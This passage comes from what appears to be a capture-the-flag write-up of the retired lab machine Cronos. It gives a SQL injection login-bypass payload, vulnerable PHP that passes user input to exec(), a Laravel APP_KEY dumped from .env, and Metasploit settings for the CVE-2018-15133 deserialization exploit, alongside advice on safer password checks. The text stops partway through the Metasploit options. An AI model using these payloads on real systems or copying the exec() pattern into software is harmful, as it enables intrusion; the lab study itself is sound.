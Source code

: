 Had this been a real DB, that wouldn’t have worked. Still, I could have used a user `' or 1=1 LIMIT 1-- -`, and then it would have logged me in as the first user, and I could have use `LIMIT X,1` to get the xth user (0 based).

In general, when writing SQL-base auth in applications, it’s best to get the rows that match the username, and then compare the password hash from that row to the hash of the input password. That will prevent the password check’s being commented out in an injection.

#### Command Injection

The command injection happens in `/var/www/admin/welcome.php`:

```

<?php
   include('session.php');

if($_SERVER["REQUEST_METHOD"] == "POST") {
        //print_r($_POST);
        $command = $_POST['command'];
        $host = $_POST['host'];
        exec($command.' '.$host, $output, $return);
        //print_r($output);
}
?>

```

IT takes the two inputs, concatenates them together just as I observed, and passes the string to `exec`. The output is stored in `$output`, and printed to the page later.

### Laravel and CVE-2018-15133

The only Laravel CVE that seemed useful here was [CVE-2018-15133](https://github.com/kozmic/laravel-poc-CVE-2018-15133), which was a PHP deserialization bug. There is also a Metasploit exploit for this vulnerability, `unix/http/laravel_token_unserialize_exec`. This bug was released well after Cronos was retired let alone created, so it’s clearly not an intended path. Still, I wanted to play with it.

In order to pull this off, I needed the `APP_KEY`. I didn’t find a way to leak this during the box, but as root (or even www-data), I can grab it. It is stored in the `.env` file in the `/var/www/laravel` directory.

```

root@cronos:/var/www/laravel# cat .env | grep APP_KEY
APP_KEY=base64:+fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=
PUSHER_APP_KEY=

```

Using the Metasploit exploit, I set the key and the other options:

```

msf5 exploit(unix/http/laravel_token_unserialize_exec) > options

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    +fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.13                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
```
